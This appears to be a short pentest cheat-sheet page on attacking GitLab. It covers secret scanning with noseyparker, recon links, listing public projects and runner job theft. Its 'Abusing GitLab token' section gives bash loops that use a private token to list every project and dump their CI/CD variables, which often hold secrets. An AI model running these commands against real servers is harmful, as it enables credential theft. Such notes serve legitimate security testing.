 ```yaml
---
description: Gitlab checks
---
```


# Gitlab

### Search for secrets

{% embed url="https://github.com/praetorian-inc/noseyparker" %}

```bash
#Scan repo
docker run -v "$PWD":/scan ghcr.io/praetorian-inc/noseyparker:latest scan .
#Get results
docker run -v "$PWD":/scan ghcr.io/praetorian-inc/noseyparker:latest report
```

### Reconnaissance

{% embed url="https://embracethered.com/blog/posts/2022/hacking-gitlab-servers/" %}

### Check public repositories

```bash
curl "https://gitlab.com/api/v4/projects?visibility=public" | jq '.[] | {name, path, web_url}'
```

**Route `/explore` allow to go behind the login panel**

### Abusing GitLab token

#### Get variables from projects

define count pages and replace max page in seq. First take all projects id

```bash
for page in $(seq 0 110); do echo $page && curl -s --header "PRIVATE-TOKEN: <token>" "https://gitlab.example.com/api/v4/projects?per_page=100&page=$page" | jq ".[].id" >> gitlab-ids.txt; done
```

Then try get var

```bash
while IFS='' read -r LINE || [ -n "${LINE}" ]; do url="https://gitlab.example.com/api/v4/projects/$LINE"; vars=$(curl -s --header 'PRIVATE-TOKEN: token' $url/variables); [ ${#vars} -gt 5 ] && echo $vars > .tempvars && curl -s --header 'PRIVATE-TOKEN: token' $url | jq --slurpfile v .tempvars '{id: .id, git: .http_url_to_repo, vars: $v[0]}' >> gitlab-vars.txt; done <gitlab-ids.txt
```

Also try get gitlab-group vars (мне пока лень)

### Abusing GitLab Runners

{% embed url="https://frichetten.com/blog/abusing-gitlab-runners/" %}

Script for steal tasks by requesting them faster than a real runner - [https://github.com/Frichetten/gitlab-runner-research](https://github.com/Frichetten/gitlab-runner-research)

